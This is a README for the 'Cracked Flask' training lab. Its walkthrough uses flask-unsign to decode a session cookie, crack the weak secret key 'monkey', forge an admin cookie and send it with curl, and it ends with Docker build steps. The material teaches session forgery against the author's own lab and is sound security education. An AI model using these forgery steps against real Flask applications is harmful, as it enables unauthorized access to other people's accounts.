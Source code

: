 # Cracked Flask

This is the code and deployment information for my [Cracked Flask](https://crackedflask.digi.ninja/) lab. For full details on the lab, see the [Cracked Flask blog post](https://digi.ninja/blog/cracked_flask.php).

## Walk Through

Pull down the cookie and have a look what is in it:

```
flask-unsign --decode --server https://crackedflask.digi.ninja
```

Try to crack it:

```
flask-unsign --unsign --server https://crackedflask.digi.ninja
```

Cracked it and got the secret key "monkey" so now create a new cookie with the username admin rather than robin:

```
flask-unsign --sign --secret monkey --cookie "{'hello': 'world2', 'username': 'admin'}"
```

Finally, make a request using the new cookie:

```
curl --cookie "session=eyJoZWxsbyI6IndvcmxkMiIsInVzZXJuYW1lIjoiYWRtaW4ifQ.YbCXpA.45th8HQUFJO6GHycU_fMkPQ31qc" https://crackedflask.digi.ninja
```

If you want to combine the last two commands:

```
COOKIE=`flask-unsign --sign --secret monkey --cookie "{'hello': 'world2', 'username': 'admin'}"`
curl --cookie "session=$COOKIE" https://crackedflask.digi.ninja
```

Or you could just put the signing command into the curl command with backticks.

## Build

This will build and start the Docker container.

```
docker build -t digininja/cracked_flask .
docker run -p 127.0.0.1:5000:5000 --name cracked_flask digininja/cracked_flask .
```

## References

Some useful references:

- [Flask Unsign](https://github.com/Paradoxis/Flask-Unsign) - A tool to decode, crack, and sign, Flask cookies.
- [Building a Flask app](https://flask.palletsprojects.com/en/2.0.x/quickstart/) - Building your first Flask app.
- [Deploying a Flask app](https://flask.palletsprojects.com/en/2.0.x/tutorial/deploy/) - How to deploy a Flask app.
- [Building and deploying a Flask app in Docker](https://support.stackpath.com/hc/en-us/articles/360022987711-Edge-Computing-Building-a-Containerized-Python-Web-App-Using-Flask) - A full walk through of all the stages in a single page.
